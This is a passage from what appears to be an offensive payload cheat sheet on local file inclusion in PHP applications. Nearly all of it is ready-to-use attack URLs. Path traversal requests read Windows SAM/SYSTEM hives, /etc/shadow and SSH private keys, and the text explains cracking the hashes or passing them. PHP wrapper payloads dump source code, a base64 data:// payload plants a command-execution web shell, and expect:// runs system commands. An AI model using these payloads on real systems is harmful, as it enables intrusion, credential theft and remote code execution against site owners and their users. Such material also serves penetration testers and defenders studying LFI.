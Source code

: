 This method require **high privileges** inside the application in order to read the sensitive files.
###### Windows version

First extract `sam` and `system` files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

###### Linux version

First extract `/etc/shadow` files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

NOTE: Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
##### PHP Wrappers

###### Wrapper php://filter

The part "`php://filter`" is case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Wrappers can be chained with a compression wrapper for large files.
```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

###### Wrapper data://

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

###### Wrapper expect://

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
